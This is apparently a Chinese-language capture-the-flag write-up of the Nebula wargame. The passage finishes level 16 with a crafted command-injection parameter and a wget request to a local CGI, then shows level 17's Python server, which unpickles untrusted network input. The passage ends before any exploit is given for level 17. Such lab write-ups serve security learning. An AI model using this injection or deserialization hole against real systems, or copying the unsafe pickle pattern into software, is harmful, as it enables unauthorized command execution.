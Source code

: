 于是构造一个脚本/tmp/EXP16，并给予x权限：

```bash
#! /bin/bash
/bin/getflag > /tmp/flag16.txt
```

之后构造参数：

```no-highlight
username="</DEV/NULL;/*/EXP16;#
```

其中第一个`"`用于闭合，`</DEV/NULL`是给egrep的输入参数，之后是漏洞利用的命令，最后的`#`用于注释掉后面的语句。

最后将构造好的参数编码并执行：

```bash
wget http://127.0.0.1:1616/index.cgi?username=%22%3C%2FDEV%2FNULL%3B%2F%2A%2FEXP%3B%23 -O /dev/null
```

从/tmp/flag16.txt中可以发现成功getflag。

# Nebula level17 #
> There is a python script listening on port 10007 that contains a vulnerability.
> 
> 在监听10007端口的python脚本有漏洞。

```python
#!/usr/bin/python

import os
import pickle
import time
import socket
import signal

signal.signal(signal.SIGCHLD, signal.SIG_IGN)

def server(skt):
  line = skt.recv(1024)

  obj = pickle.loads(line)

  for i in obj:
    clnt.send("why did you send me " + i + "?\n")

skt = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
skt.bind(('0.0.0.0', 10007))
skt.listen(10)

while True:
  clnt, addr = skt.accept()

  if(os.fork() == 0):
    clnt.send("Accepted connection from %s:%d" % (addr[0], addr[1]))
    server(clnt)
    exit(1)
```
